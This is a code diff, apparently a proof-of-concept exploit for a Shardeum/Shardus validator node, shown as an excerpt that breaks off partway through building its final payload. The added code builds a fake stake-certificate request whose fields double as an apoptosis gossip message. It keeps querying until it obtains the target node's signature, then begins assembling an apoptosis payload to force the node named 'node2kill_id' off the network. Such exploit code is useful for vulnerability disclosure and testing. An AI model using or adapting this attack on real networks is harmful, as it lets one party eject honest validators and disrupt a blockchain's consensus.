 ```diff
+      const me = shardus.getNodeId()
+      const { externalIp, externalPort } = shardus.getNode(me)
+
+      const accres: any = await axios.get(`http://${externalIp}:${externalPort}/accounts`)
+
+      let nominator = "";
+      let nominee = "";
+      let stake = "";
+
+      // res.write(`crawling stake infos`)
+
+      for (const acc of accres.data.accounts) {
+        const data = Utils.safeJsonParse(acc.data)
+        if(data.nominator){
+          nominator = data.nominator
+          nominee = data.id
+          stake = data.stakeLock
+          break;
+        }
+      }
+
+      const craftedPayload = {
+         nominator,
+         nominee,
+         stake,
+         id: node2kill_id, // <-- this is the field required by the apoptosis gossip
+         when: 1, // <-- this is the field required by the apoptosis gossip
+         certExp: Date.now() + 1000 * 60 * 60 * 24 * 365,
+      }
+      let targetSig;
+      const _gg = { body: craftedPayload }
+      while(!targetSig){
+        const queryCertRes = await queryCertificateHandler(_gg as any, shardus) as CertSignaturesResult
+
+
+        if (ShardeumFlags.VerboseLogs) console.log('queryCertRes', queryCertRes)
+        if (queryCertRes.success) {
+          const successRes = queryCertRes as CertSignaturesResult
+          stakeCert = successRes.signedStakeCert
+          /* prettier-ignore */ nestedCountersInstance.countEvent('shardeum-staking', `queryCertificateHandler success`)
+        } else {
+          /* prettier-ignore */ nestedCountersInstance.countEvent('shardeum-staking', `queryCertificateHandler failed with reason: ${(queryCertRes as ValidatorError).reason}`)
+        }
+
+
+        const node2kill_pubkey = shardus.getNode(node2kill_id).publicKey
+        for (const sign of queryCertRes.signedStakeCert.signs) {
+          if(sign.owner == node2kill_pubkey){
+            targetSig = sign
+            break
+          }
+        }
+      }
+
+      const apopPayload = {
+        nominee: craftedPayload.nominee,
+        nominator: craftedPayload.nominator,
+        stake: craftedPayload.stake,
+        id: craftedPayload.id,
+        when: craftedPayload.when,
```